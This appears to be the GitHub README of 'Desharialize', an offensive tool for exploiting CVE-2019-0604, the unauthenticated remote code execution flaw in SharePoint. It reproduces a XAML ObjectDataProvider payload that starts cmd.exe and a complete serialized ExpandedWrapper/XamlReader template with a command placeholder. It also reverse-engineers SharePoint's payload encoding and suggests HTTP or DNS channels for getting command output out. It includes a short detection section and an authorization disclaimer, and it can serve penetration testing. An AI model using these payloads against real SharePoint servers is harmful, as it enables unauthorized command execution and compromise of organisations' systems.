 
# Desharialize
Desharialize: Easy mode to Exploit CVE-2019-0604 (Sharepoint XML Deserialization Unauthenticated RCE)

## What is it?

While there have been public POCs for CVE-2019-0604, I have noticed that those POCs are not clear, extensible or flexible. Some of them only have on hardcoded (and serialized/encoded) payloads, some of them require running custom .NET code before every payload, and some would run the payload on your machine first during the serialization process. I have reversed and analyzed the simple serialization/encoding algorithm used by Sharepoint, and I have created a raw template that can be used to serialize any custom payload on the fly without having to run .NET code for each payload, or run payloads that you can't read.

Find below usage examples for Desharialize as well as a brief explanation of the serialization process.

## Assumptions

To better utilize this tool in pentesting Sharepoint:
- It is assumed that you know what is the Sharepoint CVE-2019-0604
- It is assumed that you have found a vulnerable (Unpatched) Sharepoint server.
- It is assumed that you have found a vulnerable endpoint on that Sharepoint server (e.g. example.com/_layouts/15/Picker.aspx)


## Prerequisites

- Python 3.
- The requirements listed in the requirements.txt file


## Installing

pip3 install -r requirements.txt


Better to create a virtualenv environment for the tool. Please note that using sudo with pip is not recommended.


## Author

* **Mohammed Aldoub**, also known as **Voulnet**, find me on [Twitter](https://www.twitter.com/Voulnet)

## Main Features

- Run custom serialized payloads on targets (Make sure you have authorization from system owners!).
- Launch the payload on any vulnerable Sharepoint version without having to look for compatible Assembly names.
- No need to play musical chairs with dynamically changing VIEWSTATE and EVENTVALIDATION values, Desharialize scrapes them from the target automatically.
- Make pentesting Sharepoint fun again.
- This tool is aimed at testing Picker.aspx endpoints in particular. Not tested at other endpoints.
- This tool runs commands through the target's command shell using Sharepoint privilges, but no way to read output directly.
- To read output, another channel is needed: Sending result through HTTP, DNS or other options.
- Load commands from a file: This means no need for annoying, persky escaping and encoding of values to paste stuff into the shell.
- Burp Collaborator can help!

## Contributing

PRs are welcome!


## Testing

Installing and running an older version of Sharepoint to test this tool is a very annoying and cumbersome process. Installing and configuring Sharepoint was actually the only difficult thing in the process of developing this tool. To spare you sweat and blood, you may find these resources helpful, they contain a VM with Sharepoint pre-installed. You might need to fix up some licenses issues such as rearming Windows license, configuring a Developer license for MSSQL, and so on. The links are:
[Sharepoint 2016 Ready made VM](https://gauravmahajan.net/2017/10/06/sharepoint-server-2016-virtual-machine-download/) and [Sharepoint 2013 Ready made VM](https://gauravmahajan.net/2014/08/17/sharepoint-server-2013-sp1-virtual-machine-download/)

## Brief Explanation of the serialization process

In my analysis of this vulnerability, I noticed that the vulnerability has been explaned in depth by the authors of the awesome links you will find in the References section below. I will attempt to explain the serialization process, because this is what allowed me to create a dynamic payload you can change on the fly without calling .NET code everytime.

The serialized string is a XamlReader ExpandedWrapper which contains our payload in its XML format, An example taken from [this POC](https://github.com/linhlhq/CVE-2019-0604)  is:
```XML
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
	<ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
		<ObjectDataProvider.MethodParameters>
			<System:String>cmd.exe</System:String>
			<System:String>/c calc</System:String>
		</ObjectDataProvider.MethodParameters>
	</ObjectDataProvider>
</ResourceDictionary>
```

To serialize it, .NET calls a function called Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.EncodeEntityInstanceId, which takes this string object and performs some operations resulting finally in the serialized payload which looks like "__bp123435009700370047005600d60...etc"
By decompiling this function and debugging its code flow, we can see the following:

![Logo of barq](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot1.png)

Here the function adds __ to the start of the string, then checks the number of objects sent to be serialized, here it's 1, so it adds 1 to 97 to convert the result into ascii (b ascii is 98 decimal), so the string becomes __b

![Logo of barq](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot2.png)

After that, the code loops on the type of the element being serialized, it's currently of type object, so it looks up a table of types and their values from an array called typeHash.

![Logo of barq](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot3.png)

When we decompile this array, we will find that the object type is the type #16, which has an index of 15 (starting from zero!), so the code adds the value of 16 to 97 resulting in 112, which is p in decimal, now the serialized string becomes __bp

![Logo of barq](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot4.png)

Next, we check the type of the object being sent to be serialized, which is of type object, so we enter this if statement, where it takes our input, serialized it using the XmlSerializer class of .NET, then appends in front of it the the XamlReader Assembly Qualified name + ":" plus the XML serialized payload, so it looks like this: 

```xml
System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089:<?xml version="1.0" encoding="utf-16"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ResourceDictionary xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' xmlns:x='http://schemas.microsoft.com/winfx/2006/xaml' xmlns:System='clr-namespace:System;assembly=mscorlib' xmlns:Diag='clr-namespace:System.Diagnostics;assembly=system'&gt;&lt;ObjectDataProvider x:Key='y' ObjectType='{x:Type Diag:Process}' MethodName='Start'&gt;&lt;ObjectDataProvider.MethodParameters&gt;&lt;System:String&gt;cmd&lt;/System:String&gt;&lt;System:String&gt;/c COMMANDHERE &lt;/System:String&gt;&lt;/ObjectDataProvider.MethodParameters&gt;&lt;/ObjectDataProvider&gt;&lt;/ResourceDictionary&gt; </anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
```

After that, this serialized string, whose encoding is utf-16 is sent to be Hex-encoded, and then reversed, and also the length of this serialized string (after encoding, hexing and reversing) is calculated in hex (the length, that is - also encoded, hexed and reversed) and then put in front of the string so we have a string for example like "__bp82c135009700370047005600d60...etc", which actually means length of 82c1, so reversing that is 1c28 in hex, meaning 7208 in decimal. After that we have 35009700370047005600, so let's reverse that into 00530079007300740065, and decoding this from utf-16 and hex, we have 0x5379737465 which in ascii is Syste (System...etc etc)

So the way this tool works is that it takes a premade serialized string, adds a known serialized-reversed-hexed string to it, takes your command input, serializes-hexes-encodes it and then puts it instead of the premade serialized placeholder, and voila! You now can put your own dynamic serialized string without having to run dotnet code or be restricted to the public payloads available online.

## TODO:

- More testing against a wider range of versions and service packs for Sharepoint.
- Integrate fully with Metasploit.

## Detection

Check your web server logs for request containing "71e9bce111e9429c"
For more awesome detection steps, Snort and Sigma rules, please visit: [Mansour Alsaidie Blog](https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/)

## References and further info

[Mansour Alsaidie Blog](https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/)

[ZDI](https://www.zerodayinitiative.com/blog/2019/3/13/cve-2019-0604-details-of-a-microsoft-sharepoint-rce-vulnerability)

[k8gege POC](https://github.com/k8gege/CVE-2019-0604)

[.NET POC to create serialized payload](https://github.com/linhlhq/CVE-2019-0604) 


## Disclaimer

By using this tool, you absolve the tool author from any effect or repercussions resulting, directly or indirectly, from usage of this tool. This tool is provided as is, with no waranty or guarantee. This tool must only be used on legally authorized targets, and by using this tool you hereby declare that you have obtained proper legal permission from the tested targets, and that you fully absolve the tool author from any and all means and results, directly or indirectly, of utilizing this free open source tool. 

## Questions?

- Raise an issue here in Github.
- Contact me on Twitter.
